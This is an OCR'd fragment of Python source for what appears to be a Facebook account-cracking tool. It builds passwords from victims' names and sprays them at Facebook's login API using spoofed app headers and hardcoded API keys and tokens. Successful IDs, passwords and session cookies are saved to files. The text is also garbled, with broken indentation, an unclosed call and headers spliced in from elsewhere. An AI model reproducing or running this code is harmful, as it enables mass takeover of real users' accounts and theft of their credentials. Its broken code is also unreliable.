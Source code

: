                         	"currently_logged_in_userid": "0","locale": random.choice(["ne_NP","en_US","en_GB","bn_IN","in_ID"]),
                        	"client_country_code": random.choice(["ne_NP","en_US","en_GB","bn_IN","in_ID"]), 
                        	"method": "auth.login","fb_api_req_friendly_name": "authenticate",
                        	"fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler",
                        	"api_key": "882a8490361da98702bf97a021ddc14d"}
                        	headers = {'User-Agent': '[FBAN/FB4A;FBAV/'+str(random.randint(11,99))+'.0.0.'+str(random.randint(1111,9999))+';FBBV/'+str(random.randint(1111111,9999999))+';'f'{M1}',
                       'sec-ch-ua': '"Not-A.Brand";v="99", "Chromium";v="124"',
    'Referer': 'https://mbasic.facebook.com/',
    'Origin': 'https://mbasic.facebook.com',
    'sec-ch-ua-mobile': '?1',
    'User-Agent': 'Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Mobile Safari/537.36',
    'sec-ch-ua-platform': '"Android"',
}

response = requests.get('https://z-m-static.xx.fbcdn.net/rsrc.php/v3/y5/l/0,cross/Lxk3BauoMjS.css', headers=headers
                        url = "https://api.face"+"book.com/au"+"th/lo"+"gin"
                        twf = 'Login approval'+'s are on. '+'Expect an SMS'+' shortly with '+'a code to use'+' for log in'
                        po = requests.post(url,data=data,headers=headers).json()
                        if 'session_key' in po:
                                        cookie = ";".join(i["name"]+"="+i["value"] for i in po["session_cookies"])
                                        print(f'\r\r{R}<{W}={R}>{W}-{R}<{G}POCO-OK{R}>{G} '+ids+' | '+pas+'\033[1;97m')
                                        #print(f'\r\r{R}<{W}={R}>{W}-{R}<{G}COOKIES{R}>{G} '+cookie);linex()
                                        open('/sdcard/POCO-FILE-M1-OK.txt','a').write(ids+'|'+pas+'|'+coki+'\n')
                                        oks.append(ids)
                                        break
                        elif 'www.facebook.com' in po['error']['message']:
                                        if 'y' in pcp:
                                                print(f'\r\r{R}<{W}={R}>{W}-{R}<{P}POCO-CP{R}>{P} '+ids+' | '+pas+'\033[1;97m')
                                                open('/sdcard/POCO-FILE-M1-CP.txt','a').write(ids+'|'+pas+'\n')
                                                cps.append(ids)
                                                break
                        else:continue
                loop+=1
        except Exception as e:
                pass
#--------------------< FILE METHOD M2 >--------------------#
def ___M2___(ids,names,passlist):
        try:
                global loop,oks,cps
                sys.stdout.write(f'\r\r{R}<{W}={R}>{W}-{R}<{G}MR-POCO{R}>{W}-{R}|{T}%s{R}|{W}-{R}|{G}%s{R}|{W}-{R}|{P}%s{R}| '%(loop,len(oks),len(cps)));sys.stdout.flush()
                fn = names.split(' ')[0]
                try:
                        ln = names.split(' ')[1]
                except:
                        ln = fn
                for pw in passlist:
                        pas = pw.replace('first',fn.lower()).replace('First',fn).replace('last',ln.lower()).replace('Last',ln).replace('Name',names).replace('name',names.lower())
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        random_seed = random.Random()
                        adid = str(''.join(random_seed.choices(string.hexdigits, k=16)))
                        M2 = "[FBAN/FB4A;FBAV/405.0.0.23.72;FBBV/440002512;FBDM/{density=3.0,width=720,height=2176};FBLC/en_Qaag_US;FBRV/359080319;FBCR/Telenor;FBMF/vivo;FBBD/vivo;FBPN/com.facebook.katana;FBDV/vivo 1907_19;FBSV/8.1.0;FBOP/1;FBCA/armeabi-v7a:armeabi;]"
                        data = {"adid": adid,"format": "json",
                        "device_id": str(uuid.uuid4()),
                        "email": ids,"password": pas,
                        "generate_analytics_claims": "1",
                        "credentials_type": "password",